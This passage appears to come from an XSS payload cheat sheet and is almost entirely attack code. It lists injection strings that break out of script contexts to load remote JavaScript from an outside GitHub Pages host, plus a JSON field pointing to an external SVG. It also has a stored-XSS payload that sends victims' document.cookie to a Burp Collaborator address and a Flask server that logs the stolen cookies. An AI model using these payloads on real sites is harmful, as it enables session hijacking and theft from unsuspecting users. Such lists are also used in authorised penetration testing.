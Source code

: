 ```
$.getScript('//thegetch.github.io/x');
```

Examples:

```
;}$(document).ready(function(){$.getScript(%27//thegetch.github.io/x%27)});x=function(){a=%27
```

```
&vulnfield=
thegetch%27);}});};$.getScript(%27//thegetch.github.io/x%27);x=function(){getDate(function(){x=function(){x=(%27
&otherfield=blah.....
```

```
&vulnfield=
*/%27];$.getScript(%27//thegetch.github.io/x%27);/*
&otherfield=blah.....	  	
```

### In json format:
```
"certificationVersion":"https://aerst.one/p/xss2.svg"
```

### Stealing Cookies 

Stored XSS to steal cookies (using Burp Collaborator):

```
<script>fetch('https://YOUR-SUBDOMAIN-HERE.burpcollaborator.net',{method: 'POST',mode: 'no-cors',body:document.cookie});</script> 
```

Stored XSS to steal cookies (using Flask in Python):

```
from flask import Flask, request, redirect
from datetime import datetime

app = Flask(__name__)

@app.route('/')
def cookie():

    cookie = request.args.get('c')
    f = open("cookies.txt","a")
    f.write(cookie + ' ' + str(datetime.now()) + '\n')
    f.close()

    return redirect("http://answers/")

if __name__ == "__main__":
    app.run(host = '0.0.0.0', port=5000)
```
